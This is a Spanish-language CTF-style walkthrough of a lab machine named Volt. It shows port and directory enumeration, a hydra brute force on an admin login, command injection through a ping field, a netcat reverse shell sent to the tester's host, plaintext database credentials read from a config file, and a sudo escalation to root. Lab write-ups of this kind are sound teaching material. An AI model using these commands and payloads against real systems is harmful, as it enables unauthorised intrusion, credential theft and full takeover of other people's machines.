



## Table of contents

## Enumeración

La máquina Volt tiene la ip **10.0.2.65**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 10.0.2.65

Nmap scan report for 10.0.2.65
Host is up (0.0044s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
80/tcp open  http    nginx
|_http-title: Volt - Electronics Store
```

### Puerto 80 (Web)

Accedemos con el navegador a la ip de la máquina y nos encontramos con una tienda de dispositivos electrónicos.

Muchas de las funcionalidades de la página no están disponibles así que procedemos a enumerar subdirectorios.

```bash
ffuf -c -u "http://10.0.2.65/FUZZ" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt

products                [Status: 200, Size: 6644, Words: 593, Lines: 144, Duration: 32ms]
faq                     [Status: 200, Size: 3192, Words: 240, Lines: 45, Duration: 43ms]
blog                    [Status: 200, Size: 3033, Words: 222, Lines: 45, Duration: 44ms]
privacy                 [Status: 200, Size: 2779, Words: 200, Lines: 45, Duration: 56ms]
search                  [Status: 200, Size: 6647, Words: 593, Lines: 144, Duration: 66ms]
login                   [Status: 200, Size: 3097, Words: 224, Lines: 53, Duration: 75ms]
about                   [Status: 200, Size: 3138, Words: 224, Lines: 45, Duration: 76ms]
contact                 [Status: 200, Size: 2789, Words: 195, Lines: 45, Duration: 80ms]
support                 [Status: 200, Size: 2825, Words: 201, Lines: 45, Duration: 78ms]
register                [Status: 200, Size: 3313, Words: 229, Lines: 53, Duration: 70ms]
terms                   [Status: 200, Size: 2759, Words: 199, Lines: 45, Duration: 51ms]
careers                 [Status: 200, Size: 2968, Words: 205, Lines: 45, Duration: 47ms]
admin                   [Status: 200, Size: 3121, Words: 214, Lines: 53, Duration: 47ms]
...
```

Obtenemos bastantes pero a nosotros nos interesa el subdirectorio **/admin**, en el cual tenemos un panel de login.


## Explotación
### Fuerza Bruta HTTP POST

Vamos a realizar un ataque de fuerza bruta usando **hydra** contra el panel de login para tratar de obtener las credenciales del usuario **admin**, ya que aparece por defecto en el panel. 

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.65 http-post-form '/admin:username=^USER^&password=^PASS^:1=:F=Invalid' -f

[80][http-post-form] host: 10.0.2.65   login: admin   password: chocolate3
[STATUS] attack finished for 10.0.2.65 (valid pair found)
```

**Nota:** Para evitar el **HTTP error code 401** añadimos el **1=** en los parámetros de hydra.

### Command Injection

Entramos en el panel de admin usando las credenciales obtenidas y encontramos un input que envía trazas **icmp** con **ping** a la ip que especifiquemos, por lo que podemos intentar introducir "**;**" más el comando que nos interese para ver si se ejecuta. 

Introducimos:

```bash
10.0.2.61;id
```



El input no se sanetiza en el **backend** y por lo tanto, tenemos un **Remote Code Execution** (**RCE**).

Nos ponemos en escucha con **netcat**.

```bash
nc -nlvp 4444
```

Y enviamos esta reverse shell en el input.

```bash
10.0.2.61;nc 10.0.2.61 4444 -e /bin/bash
``` 



Entramos como **www-data**

## Movimiento Lateral
### Batusai

Tenemos un **config.py** en el directorio **/opt/volt**, si lo revisamos encontramos las credenciales del usuario **batusai**

```bash
www-data@volt:/opt/volt$ cat config.py 
# Volt store - database configuration
# TODO: move secrets to environment variables before production rollout
DB_HOST = "127.0.0.1"
DB_PORT = 3306
DB_NAME = "volt_store"
DB_USER = "batusai"
DB_PASS = "V0lt_db_S3cr3t_2026"
```

Nos convertimos en **batusai** con ellas.

```bash
batusai@volt:~$ ls -la
total 28
drwx------ 3 batusai batusai 4096 Aug  1 05:30 .
drwxr-xr-x 3 root    root    4096 Jul 30 05:18 ..
lrwxrwxrwx 1 root    root       9 Aug  1 05:30 .bash_history -> /dev/null
-rw-r--r-- 1 batusai batusai  220 Jul 30 05:18 .bash_logout
-rw-r--r-- 1 batusai batusai 3526 Jul 30 05:18 .bashrc
drwxrwxr-x 3 batusai batusai 4096 Jul 30 05:18 .config
-rw-r--r-- 1 batusai batusai  807 Jul 30 05:18 .profile
-rw-r--r-- 1 batusai batusai    0 Jul 30 05:50 .sudo_as_admin_successful
-r-------- 1 batusai batusai   33 Jul 31 14:17 user.txt
```

## Escalada de Privilegios
### Root

Si revisamos los grupos a los que pertenece el usuario **batusai** vemos que pertenece al grupo **sudo**, es decir, el grupo de administradores del servidor.

```bash
batusai@volt:~$ id
uid=1000(batusai) gid=1000(batusai) groups=1000(batusai),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),101(netdev),103(bluetooth)
```

Ya que disponemos de las credenciales de **batusai** podemos abusar de ese grupo para convertirnos en el usuario **root**.

```bash
batusai@volt:/$ sudo su
root@volt:/# id
uid=0(root) gid=0(root) groups=0(root)

root@volt:/# ls -la /root/
total 48
drwx------  6 root root 4096 Aug  1 05:51 .
drwxr-xr-x 18 root root 4096 Jul 30 05:08 ..
lrwxrwxrwx  1 root root    9 Aug  1 05:33 .bash_history -> /dev/null
-rw-r--r--  1 root root 3526 Aug  1 05:34 .bashrc
drwxr-xr-x  3 root root 4096 Jul 30 05:50 .cache
-rwxr-xr-x  1 root root  850 Jul 30 06:37 cleanup.sh
drwx------  3 root root 4096 Jul 30 05:19 .config
-rwx------  1 root root  137 Aug  1 05:51 .cron-issue
drwx------  3 root root 4096 Aug  1 05:42 .local
-rw-r--r--  1 root root  132 Jul  4 04:05 .profile
-r--------  1 root root   33 Jul 31 14:17 root.txt
-rw-r--r--  1 root root   66 Aug  1 05:50 .selected_editor
drwx------  2 root root 4096 Aug  1 05:45 .ssh
```